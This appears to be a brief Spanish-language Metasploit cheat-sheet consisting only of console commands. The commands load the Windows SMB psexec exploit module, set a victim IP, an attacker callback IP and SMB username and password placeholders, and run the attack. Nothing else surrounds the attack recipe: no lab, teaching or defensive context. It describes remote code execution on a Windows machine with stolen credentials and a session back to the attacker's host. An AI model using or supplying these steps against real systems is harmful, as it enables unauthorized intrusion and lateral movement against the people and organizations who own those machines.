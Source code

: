# Metasploit

```bash
use exploit/windows/smb/psexec
```

```bash
set RHOST <"IP VICTIMA">
```

```bash
set LHOST <"IP ATACANTE">
```

```bash
set SMBUser <"Usuario">
```

```bash
set SMBPass <"Contraseña">
```

```bash
run
```